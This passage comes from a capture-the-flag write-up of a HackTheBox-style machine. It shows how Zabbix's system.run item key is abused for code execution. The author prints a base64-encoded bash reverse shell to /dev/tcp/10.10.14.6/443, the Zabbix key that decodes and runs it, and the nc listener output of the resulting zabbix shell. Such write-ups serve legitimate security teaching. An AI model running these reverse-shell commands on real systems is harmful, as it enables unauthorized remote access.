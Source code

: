 [![image-20220331065049219](https://0xdfimages.gitlab.io/img/image-20220331065049219.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20220331065049219.png)

That’s execution!

### Reverse Shell

#### Initial Connection

I’ll first try a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw), but it just returns a value of 1 and doesn’t make a connection. I suspect having the redirects passing through Zabbix is causing an issue. To eliminate special character issues, I’ll base64 encode the command:

```

oxdf@hacky$ echo "bash  -i >& /dev/tcp/10.10.14.6/443 0>&1 " | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK

```

I’ve added a couple extra spaces in to get rid of any `+/=` characters.

I’ll set the Key to:

```

system.run[echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK | base64 -d | bash]

```

When I click “Get value”, there’s a connection and a at my `nc` listener:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.124 39694
bash: cannot set terminal process group (101294): Inappropriate ioctl for device
bash: no job control in this shell
zabbix@shibboleth:/$

```

The website hangs waiting:

![image-20220331073528651](https://0xdfimages.gitlab.io/img/image-20220331073528651.png)

After about 5 seconds, the website shows an error:

![image-20220331073551485](https://0xdfimages.gitlab.io/img/image-20220331073551485.png)

And the shell dies:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.124 39812
bash: cannot set terminal process group (101454): Inappropriate ioctl for device
bash: no job control in this shell
zabbix@shibboleth:/$ exit
oxdf@hacky$

```
